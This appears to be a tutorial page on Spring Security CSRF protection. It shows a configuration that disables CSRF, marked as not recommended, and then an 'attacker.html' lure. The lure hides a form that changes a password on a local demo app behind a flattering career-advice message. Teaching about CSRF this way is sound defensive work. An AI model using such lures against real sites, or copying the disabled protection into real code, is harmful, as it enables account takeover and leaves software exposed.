 ## Disable CSRF protection <a name="disable_csrf_protection"></a>

To disable CSRF protection, just override configuration `configure(HttpSecurity http)`

> **Disabling the CSRF protection is not recommended**

```java
@Configuration
public class SecurityConfiguration extends WebSecurityConfigurerAdapter  {
    @Override
    protected void configure(HttpSecurity http) throws Exception {
        super.configure(http);
        http.csrf().disable();
    }
}
```

## CSRF attack simulation <a name="attack_simulation"/>

> Make sure that you disabled the CSRF protection

The best way to understand why CSRF protection is needed is to generate attack and to see what's happening in the background.

### Attacker creates a simple html page <a name="create_html_page" />

Create an simple html file called `attacker.html`

Let's assume that I am a influencer and somebody wants to connect me :) (because I have done awesome jobs/works etc.. according to the attacker :) )

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Fake Email from attacker</title>
  </head>
  <body>
    <h1>Can I get your feedback on career advice?</h1>
    <form method="post" action="http://localhost:8080/changePassword">
      <p>
        Hey Mehmet Ozan Guven, I hope you're doing well! I'm reaching out
        because I'm thinking of making a career change and would love to get
        your advice. I admire you and all you've accomplished. I would be eager
        to have your input. Free for coffee sometime this week?
      </p>
      <input type="hidden" name="newPassword" value="attackNewPassword" />
      <button type="submit">See Contact Information</button>
    </form>
  </body>
</html>
```
